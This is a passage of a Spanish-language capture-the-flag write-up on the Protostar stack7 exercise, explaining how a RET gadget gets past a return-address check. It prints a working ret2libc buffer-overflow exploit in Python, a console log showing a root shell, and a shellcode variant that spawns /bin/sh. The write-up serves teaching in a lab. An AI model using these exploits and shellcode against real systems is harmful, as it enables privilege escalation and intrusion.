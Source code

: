 Una de esas instrucciones es **RET** (0x08048544), la cuál hace un *POP EIP*. En ROP programming a las insutrcciones las llamamos gadgets. 
Es decir en la pila, la direccion de RET la pasa al eip, eliminandola en el acto (POP EIP), pero esa propia *instruccion RET*, deja otro *POP EIP* tras de si, que afecta a lo siguiente que hay en la pila (la direccion real a la que queremos retornar) pasandola al EIP y saltando a ella pues.
 > RET gadget -> \[pila] direccion1(RET), direccion2  ->  EIP=direccion1(no hace nada) ->  EIP=direccion2 (salta aquí)

Es decir retrasara el salto un lugar, con lo que podemos burlar protecciones de no retorno a la pila como ```if((ret & 0xb0000000) == 0xb0000000)```... Vamos a verlo en acción.  
Hemos obtenido la instruccion RET del codigo desensamblado, pero tambien se peude conseguir con ```console objdump -d stack6 -M intel | grep "ret"```
Ahora a armar el exploit.

```python
import struct
padding = "A" * 80
ret = struct.pack("I", 0x08048544)  
system = struct.pack("I",0xb7ecffb0)
exit = struct.pack("I",0xb7ec60c0)
bin_sh = struct.pack("I",0xb7fb63bf)
print(padding + ret + system + exit + bin_sh)
```
Lo unico nuevo que hay respecto al exploit del stack6 es la linea de "ret = struct.pack("I", 0x08048544)"  
La direecion despues de RET es la de system (a donde queremos saltar), pero esta vez no nos la tumba la medida de proteccion gracias a ese RET.  

```console
[user@protostar]-[/opt/protostar/bin]:$ (python /tmp/exploit.py;cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAAAAAAAAAAAD�����`췿c��
whoami
root
```
Con shellcode sería asi, contando con que mi eip es "0xbffff69c"
```console
import struct
padding = "A" * 80
ret = struct.pack("I", 0x08048544)
eip = struct.pack("I",0xbffff69c +20)
nops = "\x90"*80
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
shellcode += "\x53\x68/tty\x68/dev\x89\xe3\x31"
shellcode += "\xc9\x66\xb9\x12\x27\xb0\x05\xcd"
shellcode += "\x80\x31\xc0\x50\x68//sh\x68/bin"
shellcode += "\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
print(padding + ret + eip + nops + shellcode)
```
El problema de haberlo hecho asi es que fuera de gdb no me ha funcionado, ni cambiando la suma del eip o el numero de nops, asi que me quedo con 
la solución de antes (ret2libc)

